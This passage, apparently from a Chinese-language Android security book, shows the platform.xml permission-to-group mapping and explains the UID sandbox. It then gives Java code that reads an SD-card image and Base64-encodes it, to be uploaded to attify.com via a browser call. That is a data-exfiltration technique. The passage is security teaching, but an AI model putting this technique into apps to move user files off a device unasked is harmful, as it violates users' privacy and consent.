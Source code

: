 ```
shell@grouper:/system/etc/permissions $ cat platform.xml
<permissions>

. . .
   <!-- ================================================================== -->

    <!-- The following tags are associating low-level group IDs with
         permission names. By specifying such a mapping, you are saying
         that any application process granted the given permission will
         also be running with the given group ID attached to its process,
         so it can perform any filesystem (read, write, execute) operations
         allowed for that group. -->

    <permission name="android.permission.BLUETOOTH" >
        <group gid="net_bt" />
    </permission>

    <permission name="android.permission.INTERNET" >
        <group gid="inet" />
    </permission>

    <permission name="android.permission.CAMERA" >
        <group gid="camera" />
    </permission>

. . .  [Some of the data has been stripped from here in order to shorten the output and make it readable]

</permissions>
```

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型。

现在，就像我们在前面部分看到的，应用程序将其数据存储在`location/data/data/[package name]`。 现在，存储应用程序数据的所有文件夹也具有相同的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同 UID 的其他应用程序对它的访问和修改。

在下面的代码示例中，`ret`包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使用浏览器调用来上传到`attify.com`网站。 目的只是找到一种方式来在两个不同的 Android 对象之间进行通信。

我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中`imageString`：

```
final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
    InputStream is = cr.openInputStream(uri);
    bMap = BitmapFactory.decodeStream(is);
    if (is != null) {
        is.close();
    }  
} catch (Exception e) {
    Log.e("Error reading file", e.toString());
}

ByteArrayOutputStream baos = new ByteArrayOutputStream();  
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);   
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);
```
